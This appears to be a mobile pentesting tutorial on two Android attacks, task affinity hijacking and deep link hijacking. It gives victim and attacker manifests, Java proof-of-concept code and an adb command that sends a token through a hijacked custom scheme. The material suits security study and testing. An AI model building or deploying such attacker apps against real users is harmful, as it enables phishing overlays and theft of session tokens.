 # Content

# Task Hijacking / Task Affinity Attack
based on [singleTask mode](https://developer.android.com/guide/components/activities/tasks-and-back-stack#TaskLaunchModes) this gives 3 options for android os when an activity with this mode called :

- **If the Activity instance already exists:**
  - the system routes the intent to the existing instance through a call to its `onNewIntent()` method, rather than creating a new instance. Meanwhile all of the other activities on top of it are destroyed. 

- **If the Activity is newly created:**
  - The system creates the activity at the root of a new task
  - or locates the activity on an existing task with the same affinity

the affinity of an app is usually the package name, an attacker can exploit the last behavior to push the new created activity in the same stack of the hacker's activity

## Attack
### Victim App
notice the `android:launchMode="singleTask"`
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.victim.app">

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:logo="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.SuperSecureApp">
        <activity android:name=".LoggedIn"></activity>
        <activity android:name=".MainActivity" android:launchMode="singleTask">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```


### Atacker App
- made the `taskAffinity` with the victim package name 
- `android:excludeFromRecents` ensures the task is not listed in the recent apps, to hide the attacker's app.
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.hacker.app"
    tools:ignore="ExtraText">
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.AttackerApp"
        android:taskAffinity="com.victim.app">
        <activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>

```

```java
package com.hacker.app;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        moveTaskToBack(true);
    }

    @Override
    public void onResume(){
        super.onResume();
        setContentView(R.layout.activity_main);
    }
}
```


### References
- https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html
- https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/android-task-hijacking
- https://blog.dixitaditya.com/android-task-hijacking?x-host=blog.dixitaditya.com

# Deep Links Hijacking 
the [deep link](https://developer.android.com/training/app-links/deep-linking) are URIs of any scheme that take users directly to a specific part of your app. 

the Android system tries each of the following actions, in sequential order, until the request succeeds:
- Open the user's preferred app that can handle the URI, if one is designated.
- Open the only available app that can handle the URI.
- Allow the user to select an app from a dialog.

if there a website using a deep link to send senstive data to it we can hijack this deeplink by creating an app using that listen to the same deeplink

## Attack
### Victim App
- AndroidMainfest
```xml
  <intent-filter>
    <action android:name="android.intent.action.VIEW"></action>
    <category android:name="android.intent.category.DEFAULT"></category>
    <category android:name="android.intent.category.BROWSABLE"></category>
    <data android:scheme="holiday" > </data>
</intent-filter>
```

### Atacker App
- java code
```java
setContentView(R.layout.activity_sniif); // Ensure the layout file name is correct
Intent intent = getIntent();
Uri uri = intent.getData();
TextView textView = findViewById(R.id.textViewHacked);
if (uri != null) {
  String uriString = uri.toString();
  textView.setText("hacked your account: "+uriString);
} else {
  textView.setText("No Uri data received");
}
```
- adb shell
```shell
am start -a android.intent.action.VIEW -d holiday://example.com?token=123456789
```

### look also for applinks and weblinks
